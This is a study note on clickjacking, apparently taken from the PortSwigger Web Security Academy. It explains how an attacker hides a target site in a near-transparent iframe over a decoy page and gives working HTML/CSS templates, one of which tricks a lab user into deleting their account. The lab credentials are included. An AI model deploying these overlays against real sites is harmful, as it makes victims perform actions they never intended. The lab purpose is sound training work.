 ## What is clickjacking?

   Clickjacking is a type of cyber attack where a user is tricked into clicking on something on one website, while they're actually interacting with a different website that's hidden from view.

**Consider the following example:**
A person visits a fake website, often through a link in an email, and clicks on a button, thinking they're winning a prize. However, without their knowledge, an attacker tricks them into clicking on a hidden button, which causes them to make a payment on a different website. This method involves adding an unseen web page with a clickable button or hidden link, often within an iframe.

Unlike a CSRF attack, where an attacker tricks a user into unknowingly sending a request, clickjacking makes the user perform an action, like clicking a button, without their awareness.

![[clickjacking1.png]]

- To guard against CSRF attacks, websites often use something called a CSRF token, which is a unique, one-time code tied to a user's session.
- Clickjacking attacks aren't prevented by CSRF tokens because they involve an authentic website where all actions occur on the same domain. CSRF tokens are used in regular sessions, but in a clickjacking attack, the actions take place within a hidden iframe, making the CSRF token ineffective.

## How to construct a basic clickjacking attack

   - Clickjacking attacks use CSS to create and manipulate layers.
   - The attacker puts the real website on top of the fake one like a see-through layer, using an iframe.

**An example using the style tag and parameters is as follows:**
```jsx
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

- In a clickjacking attack, the attacker positions the real website inside the user's browser so that it perfectly aligns with the fake one, using size and positioning values. They use these values to ensure it works on different screens, browsers, and platforms.
- They also control the stacking order of the real website and the fake one using the z-index.
- To make the real website invisible to the user, they set its opacity to a very low value, close to 0.
- Some browsers have protections against this, but attackers carefully choose opacity values to avoid detection and achieve their goal.

## Steps to solve lab - 
### Title - Basic clickjacking with CSRF token protection

**Desc** - This lab contains login functionality and a delete account button that is protected by a [CSRF](https://portswigger.net/web-security/csrf) token. A user will click on elements that display the word "click" on a decoy website. To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted. 

**Creds** - wiener:peter

**Note** - The victim will be using Chrome so test your exploit on that browser.

1. Log in to your account on the target website.
  ![[clickjacking2.png]]

2. Go to the exploit server and paste the following HTML template into the **Body** section:
```jsx
<html lang="en">
<head>
	<style>
		*{
			margin: 0;
			padding: 0;
			box-sizing: border-box;
		}
		#target_website {
			position:relative;
			width:800px;
			height:600px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			top: 495;
			left: 77;
			}
	</style>
</head>
<body>
	<div id="decoy_website">
		<button class="click" type="submit">Click Me</button>
	</div>
	<iframe id="target_website" src="YOUR-LAB-ID.web-security-academy.net/my-account">
	</iframe>
</body>
</html>
```

4. Click **Store** and then **View exploit**.
5. Click on **Deliver exploit to victim** and the lab should be solved.
![[clickjacking3.png]]

**After clicking on view exploit, we got something as follows** - 
![[clickjacking4.png]]
